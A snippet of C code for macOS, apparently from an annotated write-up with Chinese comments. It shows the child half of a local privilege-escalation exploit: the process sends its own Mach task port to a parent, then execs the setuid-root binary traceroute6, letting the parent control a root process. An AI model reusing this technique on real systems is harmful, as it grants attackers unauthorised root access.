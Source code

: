 ```

  // create a reply port:
  // 创建一个具有接受消息权限的port
  mach_port_t reply_port;
  err = mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &reply_port);

  if (err != KERN_SUCCESS) {
    mach_error("child unable to allocate reply port", err);
    return;
  }

  // send it our task port
  // 将子进程的port发送给父进程
  task_msg_send_t msg = {0};

  msg.header.msgh_size = sizeof(msg);
  msg.header.msgh_local_port = reply_port;
  msg.header.msgh_remote_port = service_port;
  msg.header.msgh_bits = MACH_MSGH_BITS (MACH_MSG_TYPE_COPY_SEND, MACH_MSG_TYPE_MAKE_SEND_ONCE) | MACH_MSGH_BITS_COMPLEX;

  msg.body.msgh_descriptor_count = 1;

  msg.port.name = mach_task_self();
  msg.port.disposition = MACH_MSG_TYPE_COPY_SEND;
  msg.port.type = MACH_MSG_PORT_DESCRIPTOR;

  err = mach_msg_send(&msg.header);

  if (err != KERN_SUCCESS) {
    mach_error("child unable to send thread port message", err);
    return;
  }

  // wait for a reply to ack that the other end got our thread port
  // 等待父进程回复
  ack_msg_recv_t reply = {0};
  err = mach_msg(&reply.header, MACH_RCV_MSG, 0, sizeof(reply), reply_port, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);

  if (err != KERN_SUCCESS) {
    mach_error("child unable to receive ack", err);
    return;
  }

  // exec the suid-root binary
  // 执行setuid的程序traceroute6
  char* argv[] = {suid_binary_path, "-w", "rofl", NULL};
  char* envp[] = {NULL};
  execve(suid_binary_path, argv, envp);
}

```
